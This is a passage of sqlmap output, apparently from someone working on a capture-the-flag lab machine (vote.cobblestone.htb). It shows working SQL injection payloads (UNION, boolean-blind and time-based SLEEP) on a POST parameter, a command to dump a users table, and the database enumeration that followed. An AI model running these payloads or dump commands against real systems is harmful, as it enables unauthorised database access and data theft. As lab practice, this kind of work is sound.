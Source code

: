     Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6357' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a766a71,0x6a73435468644d4e77557753514f674d63435274495471415949714e466552705451644f5364614f,0x7162717871),NULL-- -
---
[16:32:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:32:26] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] vote

[16:32:26] [INFO] fetched data logged to text files under '/home/lily/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 16:32:26 /2025-08-22/
```

## Was trying different commands and got this
```
python sqlmap.py -r req --batch -D vote -T users --dump --no-cast
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.8.8#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:34:58 /2025-08-22/

[16:34:58] [INFO] parsing HTTP request from 'req'
[16:34:58] [INFO] resuming back-end DBMS 'mysql' 
[16:34:58] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=96'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=cobblestone.htb' AND 6498=6498 AND 'kXeB'='kXeB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=cobblestone.htb' AND (SELECT 7662 FROM (SELECT(SLEEP(5)))bgar) AND 'zhWm'='zhWm
